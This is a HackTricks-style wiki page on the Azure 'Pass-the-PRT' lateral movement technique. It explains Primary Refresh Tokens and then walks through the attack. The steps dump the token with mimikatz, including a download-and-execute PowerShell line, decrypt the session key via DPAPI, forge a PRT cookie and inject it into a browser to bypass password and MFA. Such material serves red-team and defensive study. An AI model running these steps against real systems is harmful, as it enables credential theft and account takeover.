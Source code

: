 # Az - Pass the PRT

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

This post was extracted from [https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/)

## What is a PRT

A **Primary Refresh Token (PRT)** is used to provide a **single sign-on (SSO)** experience for users of Windows 10 and mobile OSes.

When you log in in a device supporting thins SSO, Windows will **communicate with the Cloud Authentication Provider, validate** your credentials and **returns** the **PRT** and a **session key**. The **PRT is stored in LSASS**, and the **session key gets re-encrypted** with the local devices TPM and then stored alongside the PRT.&#x20;

Then, when the **browser** tries to access resources on the cloud, a **PRT cookie** is used to access them.

Once issued, a **PRT** is **valid** for **14 days** and is **continuously renewed** as long as the user actively uses the device. A PRT only has **MFA claims** if when accessing RDP you use **windows hello** or **windows account manager**.

It can be used to obtain access and refresh token to any application.

For more information about how this works read the [**documentation**](https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token) or [**this page**](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/).

### Check if you have a PRT

```
Dsregcmd.exe /status
```

In the SSO State section, you should see the **`AzureAdPrt`** set to **YES**.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

In the same output you can also see if the **device is joined to Azure** (in the field `AzureAdJoined`):

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Pass-the-PRT

### Steps

1. **Extract** the **PRT from LSASS** and save this for later.&#x20;
2. **Extract** the **Session Key**.  If you remember this is issued and then re-encrypted by the local device, so we need to **decrypt this using a DPAPI masterkey**. For more info about DPAPI check this [**HackTricks**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords) link or the [**Pass-the-cookie attack**](az-lateral-movements/az-pass-the-cookie.md).
3. Using the decrypted Session Key, we will obtain the derived key for the PRT and the context.   This is needed to **create our PRT cookie**.  The derived key is what is used to sign the JWT for the cookie. Dirk-jan did a great job explaining this process [here](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/).

Now we have everything we need to sign our own PRT Cookies and the rest of these steps can be done from any other system.

* We will use the PRT, derived key, and context to create a new PRT Cookie.
* Import the cookie into your browser session (we’ll use Chrome)
* That’s it!  You should now be authenticated as that user without having to know their password, or handle any MFA prompts.&#x20;

### Attack

You can use **mimikatz** to extract the PRT:

```powershell
mimikatz.exe
Privilege::debug
Sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```

<figure><img src="../../.gitbook/assets/image (4) (3).png" alt=""><figcaption></figcaption></figure>

**Copy** the part labeled **Prt** and save it.\
Extract also the session key or “**ProofOfPosessionKey**” which you can see highlighted below. This is encrypted and we will need to use our DPAPI masterkeys to decrypt it.

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
If you don’t see any PRT data it could be that you **don’t have any PRTs** because your device isn’t Azure AD joined or it could be you are **running an old version** of Windows 10.
{% endhint %}

To **decrypt** the session key you need to **elevate** your privileges to **SYSTEM** to run under the computer context to be able to use the **DPAPI masterkey to decrypt it**. You can use the following commands to do so:

```
Token::elevate
Dpapi::cloudapkd /keyvalue:[PASTE ProofOfPosessionKey HERE] /unprotect
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Now you want to copy both the Context value:

<figure><img src="../../.gitbook/assets/image (13) (2).png" alt=""><figcaption></figcaption></figure>

And the derived key value:

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Finally you can use all this info to **generate PRT cookies**:

```
Dpapi::cloudapkd /context:[CONTEXT] /derivedkey:[DerivedKey] /Prt:[PRT]
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Go to [https://login.microsoftonline.com](https://login.microsoftonline.com), clear all cookies for login.microsoftonline.com and enter a new cookie.

```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
HttpOnly: Set to True (checked)
```

{% hint style="danger" %}
The rest should be the defaults.  Make sure you can refresh the page and the cookie doesn’t disappear, if it does, you may have made a mistake and have to go through the process again.  If it doesn’t, you should be good.
{% endhint %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
